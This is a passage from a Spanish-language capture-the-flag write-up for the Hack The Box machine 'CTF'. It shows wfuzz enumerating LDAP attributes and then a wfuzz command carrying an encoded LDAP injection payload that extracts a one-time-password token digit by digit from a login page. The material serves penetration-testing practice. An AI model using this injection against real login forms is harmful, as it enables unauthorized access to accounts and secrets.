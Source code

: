 ```null
000000013:   200        68 L     231 W      2822 Ch     "mail"                                                                                                                                          
000000002:   200        68 L     231 W      2822 Ch     "cn"                                                                                                                                            
000000004:   200        68 L     231 W      2822 Ch     "commonName"                                                                                                                                    
000000027:   200        68 L     231 W      2822 Ch     "userPassword"                                                                                                                                  

Total time: 0
Processed Requests: 27
Filtered Requests: 17
Requests/sec.: 0
```

Creo un diccionario de números

```null
seq 0 9 > digits.txt
```

Lo utilizo para extraer el token

```null
wfuzz -c --hw=233 -w /home/rubbx/Desktop/HTB/Machines/CTF/digits.txt -d 'inputUsername=ldapuser%2529%2528pager%253dFUZZ%252a%2529%2529%2529%2500&inputOTP=123' http://10.10.10.122/login.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.122/login.php
Total requests: 10

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                        
=====================================================================

000000003:   200        68 L     231 W      2822 Ch     "2"                                                                                                                                            

Total time: 0.354385
Processed Requests: 10
Filtered Requests: 9
Requests/sec.: 28.21786
```

El concepto es el mismo que antes. Como son 81 dígitos, creo un script en ```python``` para automatizarlo
